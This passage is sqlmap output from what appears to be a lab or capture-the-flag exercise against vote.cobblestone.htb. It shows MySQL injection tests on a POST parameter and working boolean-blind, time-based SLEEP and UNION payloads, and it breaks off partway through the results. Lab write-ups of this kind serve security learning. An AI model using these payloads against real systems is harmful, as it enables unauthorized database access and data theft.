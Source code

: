 ```bash
[09:29:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[09:29:28] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[09:29:28] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[09:29:29] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[09:29:30] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[09:29:31] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[09:29:31] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[09:29:32] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[09:29:33] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[09:29:34] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[09:29:35] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[09:29:36] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[09:29:37] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[09:29:37] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[09:29:37] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[09:29:39] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[09:29:41] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[09:29:41] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[09:29:41] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[09:29:41] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[09:29:41] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[09:29:41] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[09:29:41] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[09:29:41] [INFO] testing 'Generic inline queries'
[09:29:42] [INFO] testing 'MySQL inline queries'
[09:29:43] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[09:29:44] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[09:29:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[09:29:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[09:29:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[09:29:49] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[09:29:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[09:30:03] [INFO] POST parameter 'url' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[09:30:03] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[09:30:03] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[09:30:27] [INFO] target URL appears to be UNION injectable with 5 columns
[09:30:28] [INFO] POST parameter 'url' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'url' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 85 HTTP(s) requests:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
```